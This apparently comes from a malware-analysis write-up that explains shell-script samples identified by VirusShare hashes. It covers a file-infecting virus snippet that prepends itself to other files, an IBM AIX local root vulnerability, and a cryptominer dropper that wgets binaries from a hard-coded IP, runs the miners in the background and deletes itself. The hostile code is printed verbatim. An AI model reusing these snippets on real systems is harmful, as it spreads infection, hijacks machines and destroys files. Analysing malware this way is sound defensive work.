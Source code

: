 Then the `bash -c` is executed with the following code. 
```
    "if [ -z \"\`cat {}|grep VIRUS\`\" ]; \
    then \
        cp {} /tmp/vir-$$; \
        (head -24 $0 >{}) 2>/dev/null; \
        (cat /tmp/vir-$$ >>{}) 2>/dev/null; \
        rm /tmp/vir-$$; \
    fi" \;
```
`{}` is replaced by the file name found by `find`. 
So, this code copies the found file to be `/tmp/vir-$$`. 
replace the found file with the first 24 lines of `$0`. 
concat the original content of the found file to the end of the found file. 

In summary, this code looks insert a 24-line code at the begining of the found file. 
The found file must contain `VIRUS` at the begining of its file. 


--------------------------------------------------

# VirusShare_eefbbb4ddf5c0c1c38f773ac0246d92e.sh

This is not an executable shell script. It is for explanation purpose. 
## Summary
IBM AIX libc MALLOCDEBUG File Overwrite Vulnerability 
Refer : securitytracker.com/id?1022261
This is a vulnerability reporeted in IBM AIX. **A local user can obtain root privilleges on the target system**



--------------------------------------------------

# VirusShare_6b24490d22d902d45e9e5379132260d9.sh 

## Summary
Remove **all** files under `/tmp/httpdlog/*.gz`
Remove **all** `.gz` and `.sh` files under current dir. 
Check whether process with `qwe15884889.01` is running. If it's running, remove everything under `/tmp/httpdlog/*.gz` and the running program, i.e., `$0`. 
Otherwise, make dir `/tmp/httpdlog` and collect system information to determine proper binary to download. 

```
typeos=`getconf LONG_BIT`
if [ "$typeos" = "64" ]
then
wget http://119.249.54.100:8846/mall.tar.gz -O my.tar.gz
fi
tar zxvf my.tar.gz
chmod 777 ./mstbcn
chmod 777 ./mstrie
chmod 777 ./mstxcn
rm -f /tmp/httpdlog/*.gz
rm -f *.gz
nohup ./mstbcn  -a cryptonight -o bcn -u qwe15884889.01 -p x -B >/dev/null 2>&1 &
nohup ./mstrie -m -o ric -u qwe15884889.02 -p x >/dev/null 2>&1 &
nohup ./mstxcn -a m7 -o bcn -u qwe15884889.01 -p x >/dev/null 2>&1 &
echo "ok"
rm -f $0
fi

```